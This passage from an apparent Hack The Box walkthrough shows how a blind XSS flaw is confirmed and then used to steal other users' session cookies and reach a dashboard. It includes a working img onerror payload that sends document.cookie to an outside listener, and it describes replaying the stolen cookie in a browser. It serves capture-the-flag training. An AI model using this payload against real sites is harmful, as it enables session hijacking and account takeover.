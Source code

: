 Upon sending the request, within few seconds, we have a connection made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-10.png)

This verifies Blind XSS vulnerability. Let's try stealing cookies since we don't have any credentials for the login on hand.

### Cookie Stealing


We have already covered about this on [HTB-FormulaX](https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Linux%F0%9F%90%A7/HTB-FormulaX).

Let's send the following payload through Burp Suite Intruder:

`<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-12.png)

After waiting for few seconds, Python Web Server captures cookie from other users on the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-11.png)


Let's use Firefox's [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) to modify our cookie value. 

After adding the extension, create a new cookie with the name of **sessions** and copy-paste in the value that was retrieved.

After that, we now have access to `/dashboard`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-13.png)